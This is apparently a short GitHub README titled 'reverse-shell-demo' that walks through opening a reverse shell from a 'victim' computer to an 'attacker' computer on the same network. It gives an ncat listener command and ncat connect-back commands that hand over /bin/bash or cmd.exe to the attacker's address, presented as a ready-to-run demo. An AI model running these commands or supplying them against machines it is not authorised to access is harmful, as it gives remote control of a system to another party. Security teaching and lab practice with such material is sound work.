# reverse-shell-demo

## Reverse Shell demo between 2 computers on the same network, a server (attacker computer), and a client (victim computer). (Can be done on a remote target but local targets are faster for a demo, result is identical)

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
Run `ncat -lvnp <port>` on the server.


### 3) Connect client to server:
For Linux/Bash:
Run `ncat <server-internal-ip> <port> -e /bin/bash`

For Windows:
Run `ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.*
